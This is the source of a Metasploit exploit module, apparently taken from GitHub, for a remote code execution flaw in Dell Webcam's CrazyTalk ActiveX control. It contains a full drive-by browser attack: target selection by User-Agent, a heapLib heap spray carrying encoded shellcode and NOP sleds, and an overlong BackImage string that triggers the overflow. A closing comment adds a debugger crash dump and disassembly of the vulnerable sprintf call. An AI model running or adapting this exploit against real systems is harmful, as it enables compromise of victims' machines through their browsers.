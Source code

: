 # wait##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
#   http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = NormalRanking

	include Msf::Exploit::Remote::HttpServer::HTML

	def initialize(info={})
		super(update_info(info,
			'Name'           => "Dell Webcam CrazyTalk ActiveX BackImage Vulnerability",
			'Description'    => %q{
					This module exploits a vulnerability in Dell Webcam's CrazyTalk component.
				Specifically, when supplying a long string for a file path to the BackImage
				property, an overflow may occur after checking certain file extension names,
				resulting in remote code execution under the context of the user.
			},
			'License'        => MSF_LICENSE,
			'Author'         =>
				[
					'rgod',   #Discovery, PoC
					'sinn3r'  #Metasploit
				],
			'References'     =>
				[
					[ 'URL', 'http://www.dell.com/support/drivers/us/en/04/DriverDetails/DriverFileFormats?c=us&l=en&s=bsd&cs=04&DriverId=R230103' ],
					[ 'URL', 'http://www.exploit-db.com/exploits/18621/' ],
					[ 'OSVDB', 80205]
				],
			'Payload'        =>
				{
					'BadChars'        => "\x00",
					'StackAdjustment' => -3500
				},
			'DefaultOptions'  =>
				{
					'ExitFunction'         => "seh",
					'InitialAutoRunScript' => 'migrate -f'
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Automatic', {} ],
					[ 'IE 6 on Windows XP SP3', { 'Offset' => '0x600'} ],
					[ 'IE 7 on Windows XP SP3', { 'Offset' => '0x600'} ],
					[ 'IE 7 on Windows Vista',  { 'Offset' => '0x600'} ]
				],
			'Privileged'     => false,
			'DisclosureDate' => "Mar 19 2012",
			'DefaultTarget'  => 0))
	end

	def get_target(agent)
		#If the user is already specified by the user, we'll just use that
		return target if target.name != 'Automatic'

		if agent =~ /NT 5\.1/ and agent =~ /MSIE 6/
			return targets[1]  #IE 6 on Windows XP SP3
		elsif agent =~ /NT 5\.1/ and agent =~ /MSIE 7/
			return targets[2]  #IE 7 on Windows XP SP3
		elsif agent =~ /NT 6\.0/ and agent =~ /MSIE 7/
			return targets[3]  #IE 7 on Windows Vista
		else
			return nil
		end
	end

	def on_request_uri(cli, request)
		agent = request.headers['User-Agent']
		my_target = get_target(agent)

		# Avoid the attack if the victim doesn't have the same setup we're targeting
		if my_target.nil?
			print_error("#{cli.peerhost}:#{cli.peerport} - Browser not supported: #{agent.to_s}")
			send_not_found(cli)
			return
		end

		print_status("#{cli.peerhost}:#{cli.peerport} - Target set: #{my_target.name}")

		p = payload.encoded
		js_code = Rex::Text.to_unescape(p, Rex::Arch.endian(target.arch))
		js_nops = Rex::Text.to_unescape("\x0c"*4, Rex::Arch.endian(target.arch))

		js = <<-JS
		var heap_obj = new heapLib.ie(0x20000);
		var code = unescape("#{js_code}");
		var nops = unescape("#{js_nops}");

		while (nops.length < 0x80000) nops += nops;
		var offset = nops.substring(0, #{my_target['Offset']});
		var shellcode = offset + code + nops.substring(0, 0x800-code.length-offset.length);

		while (shellcode.length < 0x40000) shellcode += shellcode;
		var block = shellcode.substring(0, (0x80000-6)/2);

		heap_obj.gc();

		for (var i=1; i < 0x300; i++) {
			heap_obj.alloc(block);
		}
		JS

		js = heaplib(js, {:noobfu => true})

		html = <<-EOS
		<html>
		<head>
		<script>
		#{js}
		</script>
		</head>
		<body>
		<object classid='clsid:13149882-F480-4F6B-8C6A-0764F75B99ED' id='target'></object>
		<script>
		var arg = "\x0c";
		while (arg.length < 2000) arg += arg;
		target.BackImage = arg.substring(0, 2000);
		</script>
		</html>
		EOS

		print_status("#{cli.peerhost}:#{cli.peerport} - Sending html")
		send_response(cli, html, {'Content-Type'=>'text/html'})

	end

end

=begin
The tmp path has the username that we cannot accurately control remotely, so there's
no point to try to overwrite the stack precisely.

targetFile = "C:\PROGRA~1\COMMON~1\REALLU~1\CTPLAY~1\CRAZYT~1.OCX"
prototype  = "Invoke_Unknown BackImage As String"
memberName = "BackImage"
progid     = "CRAZYTALK4Lib.CrazyTalk4"
argCount   = 1

(d4c.d9c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=10005970 ecx=0000b3a0 edx=020bf34f esi=03422f98 edi=020bf5ac
eip=41414141 esp=020bf33c ebp=020bf390 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
<Unloaded_Ed20.dll>+0x41414140:
41414141 ??              ???

======

.text:03854F59 lea     ecx, [esp+33Ch+Str1]
.text:03854F5D push    offset a_asp    ; ".asp"
.text:03854F62 push    ecx             ; Str1
.text:03854F63 mov     [esp+344h+var_308], 0
.text:03854F68 call    ebx ; _stricmp           <-- Nope

.text:03854F71 lea     edx, [esp+328h+Str1]
.text:03854F75 push    offset a_php    ; ".php"
.text:03854F7A push    edx             ; Str1
.text:03854F7B call    ebx ; _stricmp           <--- Still nope

.text:03854F84 mov     ebx, [esp+328h+Dest]
.text:03854F8B lea     eax, [esp+328h+Str1]
.text:03854F8F lea     ecx, [esp+328h+Filename]
.text:03854F96 push    eax
.text:03854F97 add     esi, 3B44h
.text:03854F9D push    ecx
.text:03854F9E push    esi
.text:03854F9F push    offset aSSS     ; "%s%s%s"
.text:03854FA4 push    ebx             ; Dest
.text:03854FA5 call    ds:sprintf
=end
            
